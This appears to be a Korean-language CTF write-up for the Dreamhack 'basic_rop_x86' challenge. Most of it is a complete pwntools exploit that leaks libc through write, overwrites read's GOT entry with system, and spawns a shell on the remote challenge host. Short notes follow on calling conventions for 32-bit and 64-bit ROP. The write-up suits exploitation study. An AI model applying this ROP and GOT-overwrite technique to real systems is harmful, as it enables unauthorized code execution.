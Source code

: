 # basic_rop_x86

```python
#!/usr/bin/python3
from pwn import *

def slog(msg,addr): return success(": ".join([msg,hex(addr)]))

#p = process("./basic_rop_x86")
p = remote("host1.dreamhack.games",13114)
e = ELF("./basic_rop_x86") #코드영역은 변화없음
#libc = ELF("/usr/lib32/libc-2.31.so")
libc = ELF("./libc.so.6")

#context.log_level = 'debug'
#context.terminal = ['/mnt/c/tools/wsl-terminal/open-wsl.exe','-e']
#gdb.attach(p,"b * main+73")

#0x8048688 = pop ebx; pop esi ; pop edi ; pop ebp ; ret
pppr = 0x08048689 #pop esi ; pop edi ; pop ebp ; ret

write_plt = e.plt["write"]
read_plt = e.plt["read"]
read_got = e.got["read"]
bss = e.bss()
binsh = b'/bin/sh\x00'


payload = b"A"*0x48 #buf <-> sfp 

#write(1,read_got,4)
payload += p32(write_plt)
payload += p32(pppr) #값을 빼내는 용도
payload += p32(0x1) #stdin
payload += p32(read_got)
payload += p32(0x4)

#read(0,bss,len(binsh))
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0x0)
payload += p32(bss)
payload += p32(len(binsh))


# [3] GOT overwrite read_got -> system
#read(0,read_got,len(read_got))
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0x0)
payload += p32(read_got)
payload += p32(0x4)

#system("/bin/sh")
payload += p32(read_plt)
payload += b"B"*0x4
payload += p32(bss)

p.send(payload)
p.recvuntil(b"A"*0x40)
read_addr = u32(p.recv(4))
libc_base = read_addr - libc.symbols['read']
system = libc_base + libc.symbols['system']

slog('read',read_addr)
slog('libc_base',libc_base)
slog('system',system)

p.send(binsh)
p.send(p32(system))

p.interactive()

```

32bit 함수 프롤로그는 64bit랑 다르다!

32bit는 먼저 스택에 값을 넣고 난 후에 실행하는 반면 64bit는 레지스터에 값을 넣은 후 함수를 실행한다.

*따라서 32bit는 위에처럼 function_plt를 먼저 넣으면 해당 function에서 해당 function+0x8에서 인자를 가져와서 쓴다. 중간에 있는 gadget pppr은 단순히 인자를 빼주고 ret부분에 다음 함수 function_plt(2)를 위치시켜 해당 함수를 실행하기 위함이다.*  

*따라서 pppr은 인자를 빼내고 다음함수를 실행하는 용도로 사용하기 위해 정확히 pop pop pop ret 이 되어야한다.*

64bit에서는 rdi rsi rdx 값을 잘맞춰줘야 하기때문에 가젯을 잘 찾아야한다.

아니면 oneshot 가젯을 이용하는 것도 방법이다.
